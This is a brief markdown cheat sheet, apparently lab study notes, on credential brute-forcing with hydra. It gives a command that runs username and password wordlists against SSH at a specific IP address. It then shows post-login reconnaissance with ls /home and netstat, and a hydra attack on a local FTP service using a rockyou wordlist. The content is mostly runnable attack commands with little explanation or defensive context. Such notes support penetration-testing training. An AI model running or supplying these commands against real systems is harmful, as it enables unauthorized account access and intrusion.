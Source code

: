 #BruteForcing #ServiceAutrhentication #LoginFormAttack 

### SSH Attack
To use hydra to attack a login service looks like:
``` bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

# Provided username and password wordlists
# Add service://SERVER_IP:PORT 
# -t 4 -> max number of parallel attempts
```
### FTP Brute Forcing
After we are logged into SSH, we can check other users on the system. 
``` bash
ls /home

# Check other services running
netstat -antp | grep -i list

# Similar to how we attacked SSH we can attack FTP
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

# login to the user
ftp 127.0.0.1

```


